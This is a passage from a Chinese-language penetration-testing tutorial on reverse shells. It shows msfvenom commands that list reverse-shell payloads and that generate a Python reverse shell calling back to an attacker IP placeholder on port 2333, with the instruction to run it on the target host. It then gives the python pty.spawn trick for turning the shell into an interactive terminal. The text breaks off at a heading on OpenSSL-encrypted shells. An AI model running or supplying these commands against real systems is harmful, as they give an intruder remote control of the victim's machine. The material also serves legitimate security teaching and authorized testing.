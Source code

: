 强大的Metasploit框架也为我们提供了生成一句话反弹shell的工具，即msfvenom，绝对的实用。当我们不记得前面说的所有反弹shell的反弹语句时，只要我们有Metasploit，那么我们随时都可以使用 msfvenom -l 来查询生成我们所需要的各类命令行一句话，具体使用方法如下。

我们直接可以使用 msfvenom -l 结合关键字过滤（如cmd/unix/reverse），列出我们需要生成的各类反弹shell一句话的payload：

```python
msfvenom -l payloads | grep 'cmd/unix/reverse'
```

metasploit支持生成反弹shell一句话的类型非常丰富，大家可以依据渗透测试对象自行选择使用。比如，我们获取一个python反弹shell的一句话：

```python
msfvenom -p cmd/unix/reverse_python LHOST=攻击机ip LPORT=2333 -f raw
```

将生成的python反弹shell的一句话在目标主机上执行即可：

## **0x07 反弹shell后获取模拟终端**

其实，上面所讲的各种方法获取的shell都不是一个标准的虚拟终端环境，它仅仅是一个标准输入。你会发现存在一个问题，就是即使我们获取了目标虚拟终端控制权限，但是往往会发现其交互性非常的差，回显信息与可交互性非常的差和不稳定，具体见情况有以下几个种。

```python
•获取的虚拟终端没有交互性，我们想给添加的账号设置密码或执行sudo等命令，无法完成。
•标准的错误输出无法显示，无法正常使用vim等文本编辑器等。
•获取的目标主机的虚拟终端使用非常不稳定，很容易断开连接。
```

这往往都是因为我们获取的shell并不是标准的虚拟终端，为了能够完成输入密码等操作，我们必须模拟一个真正的终端设备。

我们其实可以借助于python默认包含的一个pty标准库来获取一个标准的虚拟终端环境。Python在现在一般发行版Linux系统中都会自带，所以使用起来也较为方便，即使没有安装，我们手动安装也很方便。

我们只需在获取的shell里面输入如下命令，即可模拟一个终端设备：

```python
python -c "import pty;pty.spawn('/bin/bash')"
```

![img](assets/1668678192314-48049ce3-6d75-4052-bd12-67882ce2afe6.png)

如上图所示，成功模拟在shell中出了一个终端设备，并成功执行了sudo等命令。

## **0x08 使用OpenSSL反弹加密shell**
